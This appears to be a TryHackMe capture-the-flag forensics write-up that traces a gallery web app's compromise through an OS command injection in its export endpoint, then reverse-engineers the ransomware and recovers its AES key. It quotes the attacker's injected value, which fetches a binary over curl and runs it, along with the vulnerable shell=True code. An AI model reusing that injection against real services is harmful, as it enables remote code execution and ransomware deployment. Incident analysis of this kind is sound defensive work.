




# Dead Endpoint 28/10/2026 (Day 7)

## Challenge scenario



## Provided artifact

A `disk.img` located on virtual machine. But instead of working directly on that VM, I created a SSH connection from my own Powershell. 



Now i can SSH from my machine using this command
```
ssh -i "$env:USERPROFILE\.ssh\id_ed25519" ubuntu@<IP_ADDRESS>
```

I mounted this file into real working directories.

```
ubuntu@tryhackme:~$ cd Desktop
ubuntu@tryhackme:~/Desktop$ cd artifacts
ubuntu@tryhackme:~/Desktop/artifacts$ ls
disk.img  tools
ubuntu@tryhackme:~/Desktop/artifacts$ file disk.img
disk.img: DOS/MBR boot sector, extended partition table (last)
ubuntu@tryhackme:~/Desktop/artifacts$ IMG="$HOME/Desktop/artifacts/disk.img"
ubuntu@tryhackme:~/Desktop/artifacts$ LOOP=$(sudo losetup --find --partscan --read-only --show "$IMG")
ubuntu@tryhackme:~/Desktop/artifacts$ echo "$LOOP"
/dev/loop16
ubuntu@tryhackme:~/Desktop/artifacts$ lsblk -f "$LOOP"
NAME        FSTYPE FSVER LABEL           UUID                                 FSAVAIL FSUSE% MOUNTPOINTS
loop16
├─loop16p1  ext4   1.0   cloudimg-rootfs 59134bd0-a76f-4ea0-8e4a-770b2e1eafc2
├─loop16p14
├─loop16p15 vfat   FAT32 UEFI            0E9D-3FD8
└─loop16p16 ext4   1.0   BOOT            b4f0deba-ce7d-45dc-9999-0427f2720320
ubuntu@tryhackme:~/Desktop/artifacts$ mkdir -p ~/Desktop/artifacts/mount
ubuntu@tryhackme:~/Desktop/artifacts$ sudo mount -t ext4 -o ro,noload "${LOOP}p1" ~/Desktop/artifacts/mount
ubuntu@tryhackme:~/Desktop/artifacts$ cd mount
ubuntu@tryhackme:~/Desktop/artifacts/mount$ ls
bin                boot  etc   lib                lib64       media  opt   root  sbin                snap  sys  usr
bin.usr-is-merged  dev   home  lib.usr-is-merged  lost+found  mnt    proc  run   sbin.usr-is-merged  srv   tmp  var
```

---
## Question 1: Which application endpoint was abused to execute commands on the server?

I examined log files on this device located in `/var/log` directory. But there was something interesting, a README file in this folder ?

```
ubuntu@tryhackme:~/Desktop/artifacts/mount/var/log$ cat README
You are looking for the traditional text log files in /var/log, and they are
gone?

Here's an explanation on what's going on:

You are running a systemd-based OS where traditional syslog has been replaced
with the Journal. The journal stores the same (and more) information as classic
syslog. To make use of the journal and access the collected log data simply
invoke "journalctl", which will output the logs in the identical text-based
format the syslog files in /var/log used to be. For further details, please
refer to journalctl(1).

Alternatively, consider installing one of the traditional syslog
implementations available for your distribution, which will generate the
classic log files for you. Syslog implementations such as syslog-ng or rsyslog
may be installed side-by-side with the journal and will continue to function
the way they always did.

Thank you!

Further reading:
        man:journalctl(1)
        man:systemd-journald.service(8)
        man:journald.conf(5)
        https://0pointer.de/blog/projects/the-journal.html
ubuntu@tryhackme:~/Desktop/artifacts/mount/var/log$
```

As hinted, I moved to `journal` directory

```
ubuntu@tryhackme:~/Desktop/artifacts/mount/var/log/journal$ ls
ceec051e334c47ce94258c815f77ad50
ubuntu@tryhackme:~/Desktop/artifacts/mount/var/log/journal$ cd ceec051e334c47ce94258c815f77ad50
ubuntu@tryhackme:~/Desktop/artifacts/mount/var/log/journal/ceec051e334c47ce94258c815f77ad50$ ls
system.journal  system@ffd3be51fe0549efa582c732834ec434-0000000000000234-00065e2abfe467aa.journal
ubuntu@tryhackme:~/Desktop/artifacts/mount/var/log/journal/ceec051e334c47ce94258c815f77ad50$ file *
system.journal:                                                                    Journal file, Mon Oct 19 05:26:18 2026, offline, keyed hash siphash24, compressed zstd, compact, header size 0x110, entries 0x7dd
system@ffd3be51fe0549efa582c732834ec434-0000000000000234-00065e2abfe467aa.journal: Journal file, Mon Oct 19 05:26:01 2026, archived, keyed hash siphash24, compressed zstd, compact, header size 0x110, entries 0x2be
```

Those journal files require special tools instead of normal `cat` command, which is `journalctl`, particularly 
```
journalctl --directory="$HOME/Desktop/artifacts/mount/var/log/journal" --utc --no-pager
```

And I found some logs executing a Python script which really raise suspicion, perhaps the attacker might have executed some command injection.

```
Oct 20 05:36:34 gallery qemu-ga[1947]: info: guest-exec called: "/usr/bin/python3 -c
                                       import os,sys
                                       from pathlib import Path
                                       for line in Path('/etc/gallery/gallery.env').read_text().splitlines():
                                           k,v=line.split('=',1);os.environ[k]=v
                                       sys.path.insert(0,'/srv/gallery/app')
                                       import gallery
                                       gallery.add_user('m.smith','cNC3Z2yLE8TCAh1yL2e_nf0Ax_U','Michelle Smith')
                                       gallery.add_user('s.reyes','4TqSGkrttX8lx6ZV01m7FeW5sso','Sofia Reyes')
                                       "
Oct 20 05:36:34 gallery qemu-ga[1947]: info: guest-exec-status called, pid: 4770
Oct 20 05:36:34 gallery qemu-ga[1947]: info: guest-exec-status called, pid: 4770
Oct 20 05:36:35 gallery qemu-ga[1947]: info: guest-exec-status called, pid: 4770
Oct 20 05:36:35 gallery qemu-ga[1947]: info: guest-exec-status called, pid: 4770
Oct 20 05:36:36 gallery qemu-ga[1947]: info: guest-exec-status called, pid: 4770
Oct 20 05:36:36 gallery qemu-ga[1947]: info: guest-exec-status called, pid: 4770
Oct 20 05:36:37 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:37 +0000] "POST /login HTTP/1.0" 302 189 "-" "MeridianUploader/1.3"
Oct 20 05:36:37 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:37 +0000] "GET / HTTP/1.0" 200 1263 "-" "MeridianUploader/1.3"
Oct 20 05:36:37 gallery gunicorn[2322]: 2026-10-20 05:36:37,377 INFO photo accepted name=yard_0147.jpg bytes=278610
Oct 20 05:36:37 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:37 +0000] "POST /api/photos HTTP/1.0" 201 29 "-" "MeridianUploader/1.3"
Oct 20 05:36:37 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:37 +0000] "GET / HTTP/1.0" 200 1469 "-" "MeridianUploader/1.3"
Oct 20 05:36:37 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:37 +0000] "GET /media/yard_0147.jpg HTTP/1.0" 200 0 "-" "MeridianUploader/1.3"
Oct 20 05:36:37 gallery gunicorn[2322]: 2026-10-20 05:36:37,501 INFO export started job=8452cfc730ed4198
Oct 20 05:36:37 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:37 +0000] "POST /api/albums/1/export HTTP/1.0" 202 43 "-" "MeridianUploader/1.3"
Oct 20 05:36:37 gallery gunicorn[2322]: 2026-10-20 05:36:37,544 INFO export finished job=8452cfc730ed4198 state=ready
Oct 20 05:36:38 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:38 +0000] "GET /api/exports/8452cfc730ed4198 HTTP/1.0" 200 89 "-" "MeridianUploader/1.3"
Oct 20 05:36:38 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:38 +0000] "GET /exports/8452cfc730ed4198 HTTP/1.0" 200 0 "-" "MeridianUploader/1.3"
Oct 20 05:36:41 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:41 +0000] "POST /login HTTP/1.0" 302 189 "-" "MeridianUploader/1.3"
Oct 20 05:36:41 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:41 +0000] "GET / HTTP/1.0" 200 1585 "-" "MeridianUploader/1.3"
Oct 20 05:36:41 gallery gunicorn[2322]: 2026-10-20 05:36:41,520 INFO photo accepted name=yard_0148.jpg bytes=418140
Oct 20 05:36:41 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:41 +0000] "POST /api/photos HTTP/1.0" 201 29 "-" "MeridianUploader/1.3"
Oct 20 05:36:41 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:41 +0000] "GET / HTTP/1.0" 200 1791 "-" "MeridianUploader/1.3"
Oct 20 05:36:41 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:41 +0000] "GET /media/yard_0148.jpg HTTP/1.0" 200 0 "-" "MeridianUploader/1.3"
Oct 20 05:36:41 gallery gunicorn[2322]: 2026-10-20 05:36:41,620 INFO export started job=13efec482c8a4ccc
Oct 20 05:36:41 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:41 +0000] "POST /api/albums/1/export HTTP/1.0" 202 43 "-" "MeridianUploader/1.3"
Oct 20 05:36:41 gallery gunicorn[2322]: 2026-10-20 05:36:41,658 INFO export finished job=13efec482c8a4ccc state=ready
Oct 20 05:36:42 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:42 +0000] "GET /api/exports/13efec482c8a4ccc HTTP/1.0" 200 89 "-" "MeridianUploader/1.3"
Oct 20 05:36:42 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:42 +0000] "GET /exports/13efec482c8a4ccc HTTP/1.0" 200 0 "-" "MeridianUploader/1.3"
Oct 20 05:36:42 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:42 +0000] "GET / HTTP/1.0" 200 1913 "-" "MeridianUploader/1.3"
Oct 20 05:36:44 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:44 +0000] "GET /media/yard_0147.jpg HTTP/1.0" 200 0 "-" "MeridianUploader/1.3"
Oct 20 05:36:46 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:46 +0000] "GET /media/yard_0148.jpg HTTP/1.0" 200 0 "-" "MeridianUploader/1.3"
Oct 20 05:36:48 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:48 +0000] "GET /health HTTP/1.0" 200 16 "-" "MeridianUploader/1.3"
Oct 20 05:36:50 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:50 +0000] "GET /media/yard_0152.jpg HTTP/1.0" 404 207 "-" "MeridianUploader/1.3"
Oct 20 05:36:50 gallery gunicorn[2322]: 2026-10-20 05:36:50,448 INFO photo accepted name=yard_0152.jpg bytes=180683
Oct 20 05:36:50 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:50 +0000] "POST /api/photos HTTP/1.0" 201 29 "-" "MeridianUploader/1.3"
Oct 20 05:36:50 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:50 +0000] "GET / HTTP/1.0" 200 2151 "-" "MeridianUploader/1.3"
Oct 20 05:36:54 gallery gunicorn[2322]: 2026-10-20 05:36:54,561 INFO export started job=27ee23c277fb4bc9
Oct 20 05:36:54 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:54 +0000] "POST /api/albums/1/export HTTP/1.0" 202 43 "-" "MeridianUploader/1.3"
Oct 20 05:36:54 gallery gunicorn[2322]: 2026-10-20 05:36:54,752 INFO export worker job=27ee23c277fb4bc9 processed=3
Oct 20 05:36:54 gallery gunicorn[2322]: 2026-10-20 05:36:54,761 INFO export finished job=27ee23c277fb4bc9 state=ready
Oct 20 05:36:55 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:55 +0000] "GET /api/exports/27ee23c277fb4bc9 HTTP/1.0" 200 89 "-" "MeridianUploader/1.3"
Oct 20 05:36:55 gallery qemu-ga[1947]: info: guest-exec called: "/usr/bin/python3 -c
                                       from pathlib import Path
                                       import base64,json,subprocess
                                       root=Path('/srv/gallery/media/originals')
                                       print(json.dumps({'files':[{'name':p.name,'bytes':p.stat().st_size} for p in root.iterdir()],
                                        'locked':{p.name:base64.b64encode(p.read_bytes()).decode() for p in root.glob('*.locked')},
                                        'journal':subprocess.run(['journalctl','-u','gallery','--no-pager','-o','short-iso-precise'],capture_output=True,text=True).stdout}))
```

Some `POST` requests to endpoints such as `/login`, `/api/photos`, `/api/albums/1/export`, and repeated. 

I also navigate to `gallery-access.log`, and the result was the same.

```
ubuntu@tryhackme:~/Desktop/artifacts/mount/var/log/nginx$ cat gallery-access.log
10.0.2.2 - - [20/Oct/2026:05:36:37 +0000] "POST /login HTTP/1.1" 302 189 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:37 +0000] "GET / HTTP/1.1" 200 1263 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:37 +0000] "POST /api/photos HTTP/1.1" 201 29 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:37 +0000] "GET / HTTP/1.1" 200 1469 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:37 +0000] "GET /media/yard_0147.jpg HTTP/1.1" 200 278610 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:37 +0000] "POST /api/albums/1/export HTTP/1.1" 202 43 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:38 +0000] "GET /api/exports/8452cfc730ed4198 HTTP/1.1" 200 89 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:38 +0000] "GET /exports/8452cfc730ed4198 HTTP/1.1" 200 286720 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:41 +0000] "POST /login HTTP/1.1" 302 189 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:41 +0000] "GET / HTTP/1.1" 200 1585 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:41 +0000] "POST /api/photos HTTP/1.1" 201 29 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:41 +0000] "GET / HTTP/1.1" 200 1791 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:41 +0000] "GET /media/yard_0148.jpg HTTP/1.1" 200 418140 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:41 +0000] "POST /api/albums/1/export HTTP/1.1" 202 43 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:42 +0000] "GET /api/exports/13efec482c8a4ccc HTTP/1.1" 200 89 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:42 +0000] "GET /exports/13efec482c8a4ccc HTTP/1.1" 200 706560 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:42 +0000] "GET / HTTP/1.1" 200 1913 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:44 +0000] "GET /media/yard_0147.jpg HTTP/1.1" 200 278610 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:46 +0000] "GET /media/yard_0148.jpg HTTP/1.1" 200 418140 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:48 +0000] "GET /health HTTP/1.1" 200 16 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:50 +0000] "GET /media/yard_0152.jpg HTTP/1.1" 404 207 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:50 +0000] "POST /api/photos HTTP/1.1" 201 29 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:50 +0000] "GET / HTTP/1.1" 200 2151 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:54 +0000] "POST /api/albums/1/export HTTP/1.1" 202 43 "-" "MeridianUploader/1.3"
10.0.2.2 - - [20/Oct/2026:05:36:55 +0000] "GET /api/exports/27ee23c277fb4bc9 HTTP/1.1" 200 89 "-" "MeridianUploader/1.3"
```

And actually `/api/albums/1/export` was the answer for this question. 

### OS command injection

But that's not over for this task, I wonder how that endpoint was targeted, and what technique did the attacker used.

I checked for the Nginx configuration since it show where Nginx requested to backend (Gallery was run by Nginx). 

```
ubuntu@tryhackme:~/Desktop/artifacts/mount/etc/nginx$ cat nginx.conf | grep include
include /etc/nginx/modules-enabled/*.conf;
        include /etc/nginx/mime.types;
        include /etc/nginx/conf.d/*.conf;
        include /etc/nginx/sites-enabled/*;

**grep include only for shorter text**
```

Nginx will also add configurations at `/etc/nginx/sites-enabled/`, and `/etc/nginx/conf.d/*.conf`. I continue to check for `/etc/nginx/sites-enabled/`

```
ubuntu@tryhackme:~/Desktop/artifacts/mount/etc/nginx$ cd sites-enabled
ubuntu@tryhackme:~/Desktop/artifacts/mount/etc/nginx/sites-enabled$ ls
gallery
ubuntu@tryhackme:~/Desktop/artifacts/mount/etc/nginx/sites-enabled$ file *
gallery: broken symbolic link to /etc/nginx/sites-available/gallery
ubuntu@tryhackme:~/Desktop/artifacts/mount/etc/nginx/sites-enabled$ cd ../sites-available
ubuntu@tryhackme:~/Desktop/artifacts/mount/etc/nginx/sites-available$ ls
default  gallery
ubuntu@tryhackme:~/Desktop/artifacts/mount/etc/nginx/sites-available$ cat gallery
server {
    listen 80 default_server;
    server_name gallery.meridian.thm;
    client_max_body_size 10m;
    client_body_buffer_size 10m;
    access_log /var/log/nginx/gallery-access.log combined;
    error_log /var/log/nginx/gallery-error.log warn;
    location / {
        proxy_pass http://127.0.0.1:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_request_buffering off;
        proxy_buffering off;
        proxy_max_temp_file_size 0;
    }
}
```

Since `proxy_pass http://127.0.0.1:8080` means that backend was being configured on localhost at port 8080, so I want to know which process was used to listen at port 8080 on this machine. 

```
ubuntu@tryhackme:~/Desktop/artifacts/mount/etc/systemd/system$ grep 8080 *.service
gallery.service:ExecStart=/usr/bin/gunicorn --workers 1 --threads 4 --bind 127.0.0.1:8080 --access-logfile - --error-logfile - gallery:app
```

And it was `gallery.service`

```
ubuntu@tryhackme:~/Desktop/artifacts/mount/etc/systemd/system$ cat gallery.service | grep Working
WorkingDirectory=/srv/gallery/app
```

Okay and now we know the source code was located in this directory.

```
ubuntu@tryhackme:~/Desktop/artifacts/mount/srv$ cd gallery
-bash: cd: gallery: Permission denied
ubuntu@tryhackme:~/Desktop/artifacts/mount/srv$ ls
gallery
```

LOL, I have to run my current shell with root privileges.

```
ubuntu@tryhackme:~/Desktop/artifacts/mount/srv$ sudo -s
root@tryhackme:/home/ubuntu/Desktop/artifacts/mount/srv# cd gallery
root@tryhackme:/home/ubuntu/Desktop/artifacts/mount/srv/gallery# cd app
root@tryhackme:/home/ubuntu/Desktop/artifacts/mount/srv/gallery/app# ls -lah
total 32K
drwxr-xr-x 5 systemd-coredump 988 4.0K Oct 19 05:29 .
drwxr-x--- 7 systemd-coredump 988 4.0K Oct 19 05:29 ..
drwxr-x--- 2 systemd-coredump 988 4.0K Oct 19 05:29 __pycache__
-r--r--r-- 1 systemd-coredump 988 8.3K Oct 19 05:29 gallery.py
dr-xr-xr-x 2 systemd-coredump 988 4.0K Oct 19 05:29 static
dr-xr-xr-x 2 systemd-coredump 988 4.0K Oct 19 05:29 templates
```

I'll leave the souce code of gallery.py [here](gallery.py). 

```
@app.post("/api/albums/<int:album_id>/export")
@authenticated
def export(album_id):
    if album_id != 1:
        abort(404)
    body = request.get_json(silent=True) or {}
    selection = body.get("selection", ".")
    if not isinstance(selection, str) or len(selection) > 1000:
        abort(400)
```

This is the first reason causing the OS command injection. It only checks if selection is string, or having length less than 1000. So strings having characters like `;`, `,`, `&&` will pass this check.

```
threading.Thread(target=export_job, args=(job_id, selection), daemon=True).start()
```

`selection` will now being passed to export_job() without any furthur check.

```
command = f"/bin/tar -cf '{destination}' -C '{ORIGINALS}' {selection}"
process = subprocess.run(command, shell=True, capture_output=True, text=True, timeout=45)
```

This is where OS command injection happens. When `shell=True`, Python prompts the shell to interpret the command string. On Linux, the shell can understand special characters.

Cheking the database `/srv/gallery/data/gallery.sqlite3` (from python source code) by export the database out to my real machine.



```
yard_0147.jpg; curl -fsS http://10.0.2.2:18081/assets/media-worker -o /srv/gallery/.cache/.indexd && chmod 700 /srv/gallery/.cache/.indexd && /srv/gallery/.cache/.indexd
```

As expected, after uploading an JPG file, the attacker used `;` which will not be checked, and downloaded an executable, enable for execution and ran it.

**ANSWER: /api/albums/1/export**

## Question 2: What was the full path of the executable responsible for encrypting the images?

Apparently the malicious executable that the attacker downloaded, it's full path can be found in earlier command.

**ANSWER: /srv/gallery/.cache/.indexd**

## Question 3: What is the SHA-256 hash of that executable?

I export that file to my real machine for furthur static analysis.

```
root@tryhackme:/home/ubuntu/Desktop/artifacts/mount/srv/gallery/.cache# cp -a .indexd /home/ubuntu/extracted
root@tryhackme:/home/ubuntu/Desktop/artifacts/mount/srv/gallery/.cache# sudo chmod 600 /home/ubuntu/extracted/.indexd
root@tryhackme:/home/ubuntu/Desktop/artifacts/mount/srv/gallery/.cache# sudo chown ubuntu:ubuntu /home/ubuntu/extracted/.indexd


PS C:\Users\ADMIN> scp -i "$env:USERPROFILE\.ssh\id_ed25519" "ubuntu@10.48.140.206:/home/ubuntu/extracted/.indexd" "$env:USERPROFILE\Downloads\"
.indexd                                                                               100%   14KB  46.6KB/s   00:00
PS C:\Users\ADMIN>
```

```
luongdung@lngdun:/mnt/e$ file indexd.elf
indexd.elf: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f8f0e4efdd56a53819f0b57035bf9483ef3cf96f, for GNU/Linux 3.2.0, stripped
luongdung@lngdun:/mnt/e$ sha256sum indexd.elf
6a0e5b25a919a94952b34e38d8e8b595036d1ef6a026bf5cca38a0d34459102f  indexd.elf
luongdung@lngdun:/mnt/e$
```

**ANSWER: 6a0e5b25a919a94952b34e38d8e8b595036d1ef6a026bf5cca38a0d34459102f**

## Question 4: Which encryption algorithm and mode protected the images?

```
luongdung@lngdun:/mnt/e$ strings indexd.elf | grep aes
EVP_aes_256_gcm
```

**ANSWER: AES-256-GCM**

## Question 5: What initial seed value was used to generate the encryption key?

Reverse engineering time (tiring). 

I'll leave the main.c of this malware [here](main.c). 

```
if (clock_gettime(0, &tp))
{
    close(v5);
    return 67;
}
else
{
    v8 = 1000000;
    v9 = tp.tv_nsec % 0xF4240uLL;
    v13 = tp.tv_nsec / 0xF4240uLL + 1000 * tp.tv_sec;
```

This is where the seed value get generated.

```
v13 = tp.tv_sec * 1000 + tp.tv_nsec / 1000000;
```

But v13 is calculated during encryption timestamp, so we also need those `.locked` files to calculate.

Remember in `gallery.py` src, when the command ends, the application writes stdout into journal

```
if process.stdout:
    LOG.info("export worker job=%s %s", job_id, process.stdout.strip()[:500])
```

So I queries for Journal log files.

```
ubuntu@tryhackme:~$ sudo -s
root@tryhackme:/home/ubuntu# sudo journalctl --directory=/home/ubuntu/Desktop/artifacts/mount/var/log/journal -u gallery --utc -o short-iso-precise --no-pager | grep '27ee23c277fb4bc9'
2026-10-20T05:36:54.562620+00:00 gallery gunicorn[2322]: 2026-10-20 05:36:54,561 INFO export started job=27ee23c277fb4bc9
2026-10-20T05:36:54.752896+00:00 gallery gunicorn[2322]: 2026-10-20 05:36:54,752 INFO export worker job=27ee23c277fb4bc processed=3
2026-10-20T05:36:54.761739+00:00 gallery gunicorn[2322]: 2026-10-20 05:36:54,761 INFO export finished job=27ee23c277fb4bc9 state=ready
2026-10-20T05:36:55.084578+00:00 gallery gunicorn[2322]: 127.0.0.1 - - [20/Oct/2026:05:36:55 +0000] "GET /api/exports/27ee23c277fb4bc9 HTTP/1.0" 200 89 "-" "MeridianUploader/1.3"
root@tryhackme:/home/ubuntu#
```

So the exact time would be between when `.indexd` was downloaded, means `2026-10-20T05:36:54.547+00:00`, to `2026-10-20T05:36:54.752896+00:00`. So there are around 200 answers for this. 

### AES key generation

```
v10 = v16;
do
{
    v8 = sub_1509(&v13, v8, v9);
    sub_1554(v10, v8);
    v10 += 8;
}
while (v10 != name);
```

`sub_1509()` is responsible for producing a 64-bit number using SplitMix64 (a PRNG), `v16` stores AES-256 key. Since the loop ran 4 times, this will create a 32 bytes key.

### sub_1509()

```
unsigned __int64 __fastcall sub_1509(unsigned __int64 *a1)
{
  unsigned __int64 v1; // rdx
  unsigned __int64 v2; // rdx

  v1 = *a1 - 0x61C8864680B583EBLL;
  *a1 = v1;
  v2 = 0x94D049BB133111EBLL
     * ((0xBF58476D1CE4E5B9LL * (v1 ^ (v1 >> 30))) ^ ((0xBF58476D1CE4E5B9LL * (v1 ^ (v1 >> 30))) >> 27));
  return v2 ^ (v2 >> 31);
}
```

This is SplitMix64 function to generate AES key from initial seed. From these information, I used a Python script for initial seed brute-force calculation and AES-key generation (with some help from GPT).

```
luongdung@lngdun:/mnt/c/Users/ADMIN/Downloads/Dead Endpoint - Tryhackme -Writeup$ python3 solve.py yard_0152.jpg.locked 1792474614561 1792474614752
[+] FOUND INITIAL SEED: 1792474614662
[+] AES-256 KEY: 2cd60b8474eba1744f19b0e537ff0ecbd1ae03d2d9ed24ddab3bd9729d7c0190
